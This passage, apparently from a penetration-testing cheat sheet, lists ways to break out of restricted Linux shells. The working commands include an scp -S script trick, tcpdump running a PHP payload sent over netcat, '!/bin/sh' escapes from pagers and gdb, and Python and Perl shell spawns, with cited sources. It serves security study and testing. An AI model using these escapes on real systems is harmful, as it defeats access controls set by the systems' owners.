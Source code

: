 ```sh
echo $'#!/bin/sh\n/usr/bin/id' > script.sh
chmod +x script.sh
scp -S ./script validfile remote:
```

{{<details "Parameters"></details>}}

### TCPDump[^tcpdump]

Use tcpdump to capture network traffic
containing a malicious script.

```sh
tcpdump -n -G 1 -z /usr/bin/php -U -A udp port 8080
```
{{<details "Parameters"></details>}}

Send a network packet
with the PHP script.

```sh
echo "<?php system('id');?>" | nc -u 8080
```

### Others

Programs such as `more`,
`less`,
`man`,
`ftp`,
`gdb`
let you run subshells.
Type `!` followed by a command.
Try the following:

```sh
'! /bin/sh'
'!/bin/sh'
'!bash'
```

## Languages

Try invoking a shell through an available language.

### Python
```python
exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
```

### Perl
```perl
exec "/bin/sh";
```


[^scp-pentestmonkey]: “Breaking out of Rbash Using Scp.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/blog/rbash-scp.
[^0-nixcraft]: “$0 - Linux Shell Scripting Tutorial - A Beginner’s Handbook.” NixCraft – Bash Shell Scripting Directory, https://bash.cyberciti.biz/guide/$0.
[^sans-restricted-shells]: Wright, Joshua. “SANS Penetration Testing | Escaping Restricted Linux Shells.” SANS Institute.
[^lynx-doc]: “Lynx Users Guide.” LYNX – The Text Web-Browser, https://lynx.invisible-island.net/lynx_help/Lynx_users_guide.html#LocalSource.
[^tcpdump]: “How to Break out of Restricted Shells with Tcpdump.” Insinuator.Net, https://insinuator.net/2019/07/how-to-break-out-of-restricted-shells-with-tcpdump/.